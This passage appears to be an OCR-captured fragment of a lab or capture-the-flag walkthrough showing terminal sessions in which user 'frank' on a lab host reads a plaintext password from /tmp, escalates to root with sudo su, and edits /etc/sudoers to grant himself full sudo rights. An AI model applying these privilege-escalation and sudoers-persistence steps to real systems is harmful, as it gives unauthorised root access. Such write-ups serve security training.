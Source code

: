 `ssh -i id_rsa frank@10.10.62.113`

```jsx
frank@workstation:~$ cat /tmp/frankpassword.txt
!@#frankisawesome2022%*
frank@workstation:~$ nano .bashrc

[REDACTED] - DELETING PATH INPUT - MAKE IT DEFAULT

frank@workstation:~$ exit
```

`ssh -i id_rsa frank@10.10.62.113`

```jsx
frank@workstation:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

frank@workstation:~$ sudo su
[sudo] password for frank: !@#frankisawesome2022%*
root@workstation:/home/frank# whoami
root
root@workstation:/home/frank# id
uid=0(root) gid=0(root) groups=0(root)
root@workstation:/home/frank# pwd
/home/frank
root@workstation:/home/frank# 
```

```jsx
frank@workstation:~$ sudoedit /etc/sudoers

[REDACTED] - MORE

# User privilege specification
root    ALL=(ALL:ALL) ALL
frank   ALL=(ALL:ALL) ALL

[REDACTED] - MORE

frank@workstation:~$ sudo su
root@workstation:/home/frank# whoami
root
root@workstation:/home/frank# id
uid=0(root) gid=0(root) groups=0(root)

root@workstation:/home/frank# 

```